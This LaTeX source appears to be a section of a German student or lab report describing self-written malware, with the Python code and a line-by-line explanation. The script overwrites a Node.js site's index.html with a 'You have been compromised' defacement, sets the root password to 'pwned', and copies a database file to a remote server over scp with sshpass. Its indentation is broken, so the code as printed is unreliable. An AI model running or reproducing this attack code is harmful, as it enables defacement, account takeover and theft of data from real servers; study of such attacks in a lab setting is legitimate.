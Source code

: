 \documentclass[12pt]{article}
\begin{document}
Die eigentliche Schadware arbeitet nun wie folgt. Das Defacement der Website wird umgesetzt indem eine neue Datei 'index.html' erzeugt und mit Html Code befüfflt wird. Hierfür muss zuerst der Pfad der legitimen Datei gefunden werden. In Zeile 4 wird mit subprocess das linux tool 'find' verwendet, um nach html dateien zu suchen.  
\begin{figure}[h]
 \caption{Erster Ansatz Schadware}
 \begin{lstlisting}[language=python, style=code,basicstyle=\scriptsize]
 import os
 import subprocess
 #suche mit linux-find, pfade mit der file endung html
 proc = subprocess.Popen("find / -name '*.html'", shell=True, stdout=subprocess.PIPE)
 output = proc.stdout.readlines()
 for i in output:
	 if "/public/index.html" in str(i):
		 foundpath = i
		 else:
			 continue
			 #defacement der website
			 malware = open(foundpath,"w+")
			 malware.write("<!DOCTYPE html><html><head><title>foobar</title><style>h1 {text-align: center;color: red</style></head><body><h1>You have been compromised</h1></body></html>")
				 
				 #change-cred
				 subprocess.run('echo -n "pwned\npwned" | passwd root', shell=True)
				 os.system("sshpass -p Pw scp -o StrictHostKeyChecking=no pfad sleven@192.46.236.95:/home/sleven")
 \end{lstlisting}

\end{figure}
\newpage
In den gefundenen Dateien wird nun nach der Haupt index Datei gesucht(vgl. Zeile 7). Es ist bekannt das Nodejs ein Verzeichnis namens 'public' besitzt, indem die Html dateien gehosted werden. Der Pfad wird in die Variable 'foundpath' geschrieben. Diese wird in Zeile 12 übergeben um die legitime index.html zu überschreiben. In die neue Html Datei wird nun in Zeile 13 das Defacement geschrieben.\\
Anschließend werden in Zeile 16 die Anmeldedaten geändert. Hierbei werden erneut mit subprocess Linux befehle ausgeführt. Mit echo werden die neuen Anmeldedaten in passwd gepiped.\\
In Zeile 17 wird nun die von außen nicht erreichbare Datei 'Immobilie.db' an ein weiteren Remote Server geschickt. Dies wird erneut mit os.system bewerkstelligt.
\end{document}
